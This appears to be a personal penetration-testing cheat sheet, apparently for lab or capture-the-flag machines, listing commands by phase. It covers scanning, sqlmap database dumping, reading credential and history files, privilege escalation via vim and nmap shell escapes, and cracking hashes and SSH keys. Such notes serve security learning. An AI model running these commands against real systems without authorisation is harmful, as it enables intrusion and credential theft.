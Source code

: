 ## Reconaissance

##### nmap scanning

```bash
nmap -Pn -p- -T4 {ip}
nmap -A -p<ports> -T4 {ip}
```

##### directory enumeration
```bash
gobuster dir -u {ip} -w {path_wordlist} -t {no. threads} -x {strings, pdf, php, txt, etc.}
dirbuster #opens dirbuster window
```

##### checking for sql injections
```bash
sqlmap -u {weburl, http://10.10.60.252/administrator.php>} --forms --dump --dbms=mysql
sqlmap --tables -T users --dump
```

##### enum4linux (if may samba port open)
```bash
enum4linux -a <MACHINE IP>
```

## Foothold

##### connecting ssh
```bash
ssh {user}@{ip} -p {port} 
```

##### putting files in the target system
```bash
scp {path to linenum} {user}@{host}:{path} #Example: scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp
```



## Foothold Enumeration

###### getting an interactive shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```
##### always check what kind of user you landed on
```bash
whoami
id
```

##### check files of user (and group) you landed on

```bash
find / -type f {-group/-user} {group/user} 2>/dev/null
```

##### check console history of windows terminal

```bash
type C:\Users\{user}\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

##### if from www-data, check db credentials
```bash
cat /var/www/html/cdn-cgi/login/db.php
```

##### check sudo-able commands
```bash
sudo -l
```
##### check root processes
```bash
find / -perm +6000 2>/dev/null | grep '/bin/'
```

###### pivoting to other users (if you have password)
```bash
su {user name}
```



## Privelege Escalation 

###### running bash in vim (if vim is runnable)
```
:shell 
```

##### running bash in nmap (if nmap is runnable)
```
nmap --interactive
!sh
```

##### changing PATH
```bash
export PATH=/tmp:$PATH
```

## Misc

##### use gdb in checking binary files
##### pwn commandd to check excessive input
##### pwn command to check how many excessive input is actually needed to overwrite certain address

##### in cracking hashes
```bash
hashcat -m {hash algo mode} {hash file path} {wordlist path}
```
https://hashcat.net/wiki/doku.php?id=example_hashes

##### in cracking ssh passkeys (given public and private keys)
```bash
python ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash -wordlist=rockyou.txt
```
https://www.abhizer.com/crack-ssh-with-john/

## Reminders

##### Root Reverse Shell Cheat sheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
